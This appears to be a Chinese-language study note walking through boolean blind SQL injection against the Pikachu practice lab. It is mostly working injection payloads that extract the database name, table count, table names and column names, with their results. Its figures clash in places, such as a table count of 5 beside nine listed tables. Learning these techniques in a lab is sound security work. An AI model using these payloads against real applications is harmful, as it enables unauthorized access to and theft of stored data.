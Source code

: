 ### 1、布尔盲注
```yaml
根据返回值的不同（只返回True 或者 False）来进行判断注入的的内容是否正确
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_1.png)
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_2.png)
### 2、疑问
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_3.jpg)
```yaml
前面这个1就是本身这个功能可以查询到的值就行，比如你去查一个商品，这是网站本身就提供的功能，所以你肯定能知道一个正确的值
```
### 3、用二分法，判断数据库名称的长度
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_4.png)
```yaml
vince%27+and++length%28database%28%29%29%3C10%3B%23 == vince' and  length(database())<10;#
长度小于10，返回True
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_5.png)
```yaml
vince%27+and++length%28database%28%29%29%3C5%3B%23 == vince' and  length(database())<5;#
长度小于5，返回False
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_6.png)
```yaml
vince%27+and++length%28database%28%29%29%3C7%3B%23 == vince' and  length(database())<7;#
长度小于7，返回False
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_7.png)
```yaml
vince%27+and++length%28database%28%29%29%3C8%3B%23 == vince' and  length(database())<8;#
长度小于8，返回True
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_8.png)
#### 通过以上数据，可以判断，数据库名称，长度为7
```yaml
vince%27+and++length%28database%28%29%29%3D7%3B%23 == vince' and  length(database())=7;#
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_9.png)

### 4、用ASCII对照表，来爆破出数据库的名称
```yaml
ASCII对照表: https://www.sojson.com/asciitable.html
```
#### 使用substr()函数，来进行逐个字母的爆破
```yaml
substr(x,y,z)
x: 字符串
y: 从第几个开始
z: 显示几位
```
#### 用在用二分法进行判断
```sql
vince' and ascii(substr(database(),1,1))=112;# 第一位是p
vince' and ascii(substr(database(),2,1))=105;# 第二位是i
vince' and ascii(substr(database(),3,1))=107;# 第三位是k
vince' and ascii(substr(database(),4,1))=97;# 第四位是a
vince' and ascii(substr(database(),5,1))=99;# 第五位是c
vince' and ascii(substr(database(),6,1))=104;# 第六位是h
vince' and ascii(substr(database(),7,1))=117;# 第七位是u
```
### 5、爆破数据库中，表的个数
```sql
vince' and (select count(table_name) from information_schema.tables where table_schema=database())>5;# 报错
vince' and (select count(table_name) from information_schema.tables where table_schema=database())<5;# 报错
vince' and (select count(table_name) from information_schema.tables where table_schema=database())=5;# 正确
```
### 6、爆破数据库中，表的名称
#### 找所有数据表的名称
```sql
select table_name from information_schema.tables where table_schema=database() limit 0,1
```
```yaml
department
docs
permission
role
role_permissions
role_users
share_items
shares
user
```
#### 找到所有数据表的名称的第一个名称，第二个名称……
```sql
select table_name from information_schema.tables where table_schema=database() limit 0,1 # department
select table_name from information_schema.tables where table_schema=database() limit 1,1 # docs
select table_name from information_schema.tables where table_schema=database() limit 2,1 # permission
select table_name from information_schema.tables where table_schema=database() limit 3,1 # role
```
#### 爆破pikachu数据库中，第一个表名称的字节长度
```sql
vince' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=8;# 一共8个字节长度
```
#### 爆破pikachu数据库中，第一个表的名称，按照ascii来进行爆破
```sql
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=104;# 第1个字母是h
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=116;# 第2个字母是t
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),3,1))=116;# 第3个字母是t
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),4,1))=112;# 第4个字母是p
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),5,1))=105;# 第5个字母是i
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),6,1))=110;# 第6个字母是n
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),7,1))=102;# 第7个字母是f
vince' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),8,1))=111;# 第8个字母是o
```
### 7、爆破httpinfo表的列名称
#### 先爆破httpinfo表有多少列
```sql
vince' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='httpinfo')=6;# 一共6列
```
#### 再爆破，httpinfo表的第一列，有几个字节
```sql
vince' and (select LENGTH(column_name) from information_schema.columns where table_schema=database() and table_name='httpinfo' limit 0,1)=2;# 一共2个字节长度
```
### 最后，爆破httpinfo表，第一列，2个字节长度的字符，是哪两个
```sql
vince' and ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE () AND table_name='httpinfo' LIMIT 0,1),1,1))=105;# 第1个字母是i
vince' and ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE () AND table_name='httpinfo' LIMIT 0,1),2,1))=100;# 第2个字母是d
```